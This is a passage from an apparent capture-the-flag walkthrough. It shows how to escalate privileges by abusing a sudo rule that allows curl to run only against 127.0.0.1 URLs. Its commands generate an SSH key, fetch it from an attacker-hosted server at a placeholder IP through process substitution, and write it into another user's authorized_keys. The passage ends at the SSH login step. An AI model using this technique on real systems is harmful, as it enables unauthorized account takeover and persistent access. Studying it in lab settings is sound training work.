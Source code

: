     * **Command:**

        ```bash

        sudo -l

        ```

    * **Observation:** `argiscard` could execute `/usr/bin/curl` as `dooly_vow` **without a password**, but *only* for URLs starting with `127.0.0.1`.


2.  **Generate SSH Key Pair for `dooly_vow`:**

    * **Action:** Generate a new SSH key pair on your attacker machine.

    * **Command (executed on attacker machine):**

        ```bash

        ssh-keygen -b 4096 -t rsa -f ~/robots_payloads/dooly_rsa

        ```

    * **Reasoning:** We'll push `dooly_rsa.pub` to `dooly_vow`'s `authorized_keys` for passwordless SSH.


3.  **Ensure Public Key is Hosted on Attacker's Python Web Server:**

    * **Action:** Confirm `dooly_rsa.pub` is in `~/robots_payloads/` and your Python web server is running.


4.  **Craft and Execute `curl` Command for SSH Key Transfer (Bypass):**

    * **Action:** This command leverages `curl`'s ability to handle multiple URLs and form data combined with Bash process substitution to bypass the `127.0.0.1` restriction.

    * **Command (executed as `argiscard` on the target machine):**

        ```bash

        sudo -u dooly_vow /usr/bin/curl --output-dir /home/dooly_vow/.ssh/ --output authorized_keys \

        [http://127.0.0.1/dummy_file](http://127.0.0.1/dummy_file) -F 'file=@<(curl -s http://<YOUR_ATTACKER_IP>/dooly_rsa.pub)'

        ```

        * `http://127.0.0.1/dummy_file`: Satisfies the `sudo` policy's URL restriction.

        * `-F 'file=@<(curl -s http://<YOUR_ATTACKER_IP>/dooly_rsa.pub)'`: Uses process substitution (`<(...)`) to fetch the actual public key from our Python server, and `curl` treats its output as data to write to `authorized_keys`.

    * **Reasoning:** The outer `sudo curl` command appears to comply with the `127.0.0.1` rule, but the inner `curl` effectively retrieves our public key from the attacker's machine, allowing its content to be written to the `dooly_vow`'s `authorized_keys`.


5.  **SSH into `dooly_vow`:**

    * **Action:** Log in using your new private key.
